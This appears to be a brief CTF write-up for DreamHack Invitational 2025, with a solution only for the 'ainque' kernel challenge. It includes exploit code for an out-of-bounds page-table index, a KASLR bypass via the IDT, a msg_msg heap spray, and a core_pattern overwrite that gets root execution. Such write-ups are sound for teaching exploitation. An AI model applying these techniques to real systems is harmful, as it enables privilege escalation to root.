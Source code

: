 +++
title = "Writeup of DreamHack Invitational 2025"
date = 2025-04-09
description = "Brief writeup of DreamHack Invitational 2025"
[taxonomies]
tags = ["pwn", "kernel", "Buffer Overflow", "ROP"]
+++

# xoronly

WIP

# kidheap

WIP

# ainque

## vulnerability

`pml4e_index` has no validation. It can exceed 0x200 to cause OOB access. \
`msg_msg` has `list_head` member, which has a valid pointer, they can be used as `pml4e` or `pdpe`.

```c
static QCPU_EXIT_TYPE write_memory(qvm_t *qvm, uint64_t va, uint64_t size, uint64_t value, bool is_signed) {
    for(int i=0; i<size; i++) {
        qcpu_pte_or_fail pte_safe = qcpu_get_pte_from_va_failsafe(qvm->qcpu.cr3, va+i);
        if(pte_safe.success) {
            ((uint8_t *)PTE_TO_PHYS(pte_safe.pte))[(va+i) & 0xfff] = (uint8_t)((value >> (i*8)) & 0xff);
        } else {
            return QCPU_SIGSEGV;
        }
    }
    return QCPU_CONTINUE;
}
```

```c
qcpu_pte_or_fail qcpu_get_pte_from_va_failsafe(qcpu_pte_t ****cr3, uint64_t va) {
    qcpu_pte_t ***pml4e = qcpu_get_pml4e(cr3, va >> 39);
// the following omitted

qcpu_pte_t ***qcpu_get_pml4e(qcpu_pte_t ****cr3, uint64_t pml4e_index)
{
    return cr3[pml4e_index];
}
```

## exploit

### kaslr bypass

Leak kbase by reading IDT region, which is located at fixed virtual address.

```c
  unsigned long gate = *(long *)PTI_TO_VIRT(0x2000 + 1, 1, 0, 6, 0) >> 52;
  unsigned long kbase_diff = gate - 0x820;
```

To load cracted value as `pml4e`, spray bunch of `msg_msg` struct after `QVM_LOAD`. It contains the all possible pointer to `&core_pattern` with kaslr.

```c
  rep(i, 0x1f8) {
    ((unsigned long *)msg_buf.mtext)[i + 1] =
    0xfffffffflu * 0x100000
    | (i + 0x82blu) * 0x100lu  // KASLR bypass
    | 0x7b
    | (0x8000000000000000l);
  }
```

{{ image(path="static/pagetable.png", caption="IDT address and all possible kbase address") }}

### core_pattern overwrite

Writing `|/tmp/xd` into `core_pattern` and causing crash, the kernel executes `/tmp/xd` as root.

```c
  *(long *)PTI_TO_VIRT(0x2000 + 1, 1, 0, 7 + kbase_diff & 0xfff, 0xc20) =
      0x64782f706d742f7c; // |/tmp/xd
```
